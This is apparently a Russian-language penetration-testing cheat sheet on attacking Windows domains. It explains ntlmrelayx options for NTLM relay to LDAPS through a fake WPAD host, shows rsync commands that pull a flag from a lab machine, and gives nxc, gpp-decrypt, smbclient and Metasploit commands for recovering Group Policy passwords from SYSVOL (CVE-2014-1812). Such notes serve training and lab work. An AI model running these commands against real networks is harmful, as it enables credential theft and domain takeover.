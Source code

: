 	-6 — указывает, что ntlmrelayx должен работать поверх IPv6.

	-t ldaps://dc.bank.ats — целевой сервер, на который будут ретранслироваться аутентификационные данные (в данном случае контроллер домена dc.bank.ats по защищенному LDAPS). Это мог бы быть и другой протокол, например, http:// или smb:// .

	-wh fakewpad.bank.ats — опция для размещения поддельного файла WPAD (Web Proxy Auto-Discovery). Это заставляет жертв использовать сервер злоумышленника в качестве прокси, что часто провоцирует отправку NTLM-хэшей .

	-l lootdir — указывает директорию, куда будут сохраняться результаты атаки (например, перехваченные хэши, дампы SAM и т.д.) 

# rsync

rsync --list-only 10.129.228.37::

rsync --list-only 10.129.228.37::public


rsync 10.129.228.37::public/flag.txt flag.txt


# CVE-2014-1812 — это критическая уязвимость в механизме Group Policy Preferences (GPP) Microsoft Windows, которая позволяет аутентифицированному злоумышленнику получать и расшифровывать пароли, хранящиеся в политиках домена		(доступ SYSVOL или другие открытые ресурсы SMB, где могут храниться XML-файлы GPP)
		* Расшифровка пароля из XML для груповой политики для старых Windows в файлах XML в общей папке SYSVOL
		
		nxc smb <IP-адрес> -u <имя_пользователя> -p <пароль> --shares
		nxc smb <IP-адрес> -u <имя_пользователя> -p <пароль> -M spider_plus --spider-share SYSVOL --spider-folder Policies
		 
  		gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
		
		Metasploit: use auxiliary/scanner/smb/smb_enum_gpp
		set RHOSTS <IP_DC>
		set SMBUser <user>
		set SMBPass <password>
		run
		
		
		
		smbclient //<target_ip>/SYSVOL -N
		ls
		get Policies\{Policy_GUID}\Machine\Preferences\Groups\Groups.xml
		

		use auxiliary/scanner/smb/smb_enum_gpp
		set RHOSTS <target_ip_or_range>
		set SMBSHARE SYSVOL  # Можно изменить на другой ресурс, например, Replication
		run
		
